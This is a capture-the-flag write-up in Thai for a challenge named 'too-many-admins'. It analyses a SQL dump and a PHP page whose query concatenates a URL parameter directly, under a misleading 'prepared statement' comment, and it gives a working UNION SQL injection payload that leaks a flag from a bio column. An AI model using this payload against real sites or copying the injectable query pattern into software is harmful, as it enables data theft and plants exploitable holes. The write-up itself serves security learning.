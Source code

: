 # too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมาด้วย
ครับวิเคราะห์ครับ☹️

## วิเคราะห์ dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

วิเคราะห์คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## วิเคราะห์ index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
คร่าวๆคือเราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE และแทนที่ bio ลงไปใน column username เพื่อให้มันแสดงผลออกมา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```

ครับได้ flag

![flag](flag.png)


